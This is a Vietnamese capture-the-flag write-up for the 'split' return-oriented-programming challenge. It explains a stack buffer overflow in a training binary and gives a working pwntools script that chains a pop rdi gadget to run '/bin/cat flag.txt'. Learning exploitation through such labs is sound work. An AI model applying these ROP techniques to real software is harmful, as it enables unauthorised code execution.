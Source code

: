 **1. Tìm lỗi**

Chạy thử chương trình ta có:

![run.png](photo/run.png)

Chương trình cho phép nhập một chuỗi và kết thúc ngay sau đó

Dùng lệnh checksec để kiểm tra:

![checksec.png](photo/checksec.png)

Ta thấy canary đang ở trạng thái disabled nên có thể khai thác qua lỗi bof

Dùng lệnh 'file' kiểm tra file 

![file.png](photo/file.png)

Ta thấy là file 64bit -> Mở ida64 ta có một số hàm như sau

Hàm main:

![main.png](photo/main.png)

Hàm pwnme:

![pwnme.png](photo/pwnme.png)

Ta thấy biến s được khai báo tối đa 32 byte nhưng chương trình cho phép nhập 0x60 = 96 byte -> Có lỗi bof

Hàm usefulFunction:

![use.png](photo/use.png)

Ở hàm usefulFunction ta thấy có câu lệnh syscall nên có thể tận dụng để thực hiện với các chuỗi có sẵn trong chương trình

Tìm kiếm các chuỗi ta thấy như sau: 

![chuoi.png](photo/chuoi.png)

Ta có được địa chỉ chuỗi /bin/cat flag.txt: 0x00601060

**2. Ý tưởng**

Để thực hiện được syscall('/binn/cat flag.txt') thì chúng ta cần chuyển địa chỉ chuỗi /bin/cat flag.txt vào thanh ghi rdi. Mà để ghi vào thanh ghi rdi thì chúng ta cần tìm kiễm địa chỉ câu lệnh pop rdi

![rdi.png](photo/rdi.png)

Địa chỉ câu lệnh rdi là: 0x00000000004007c3

Thứ tự payload:
- 40 byte để tràn đến ret
- Địa chỉ lệnh pop rdi
- Đưa địa chỉ chuỗi /bin/cat flag.txt vào rdi
- Địa chỉ lệnh call syscall

**Viết script**

![s.png](photo/s.png)

Ta thấy khoảng cách từ biến s đến ret là: 0x20 + 0x8

Ta có script như sau: 

```
from pwn import *

r = process("./split")

syscall = 0x000000000040074b
cat_flag = 0x00601060
pop_rdi = 0x00000000004007c3

payload = b'a'*40
payload += p64(pop_rdi)
payload += p64(cat_flag)
payload += p64(syscall)
r.sendafter('> ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
